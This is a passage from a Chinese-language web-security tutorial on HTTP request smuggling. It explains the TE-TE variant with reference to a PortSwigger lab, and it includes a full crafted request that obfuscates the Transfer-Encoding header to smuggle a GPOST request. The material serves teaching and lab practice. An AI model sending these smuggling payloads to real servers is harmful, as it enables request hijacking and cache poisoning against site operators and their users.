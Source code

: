 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print](assets/1699409511-3dc90cba248bb826fece2657de784818.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print")

由于前端服务器处理 `Transfer-Encoding`，当其读取到 `0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 `Content-Length` 请求头，当它读取完 `5c\r\n` 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>GPOST / HTTP/1.1<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 15<br><br>x=1<br>0<br>``` |

### [](#25-te-te)2.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理 `Transfer-Encoding` 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的 `Transfer-Encoding` 进行某种混淆操作，从而使其中一个服务器不处理 `Transfer-Encoding` 请求头。从某种意义上还是 `CL-TE` 或者 `TE-CL`。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n<br>Content-length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>Transfer-encoding: cow\r\n<br>\r\n<br>5c\r\n<br>GPOST / HTTP/1.1\r\n<br>Content-Type: application/x-www-form-urlencoded\r\n<br>Content-Length: 15\r\n<br>\r\n<br>x=1\r\n<br>0\r\n<br>\r\n<br>``` |
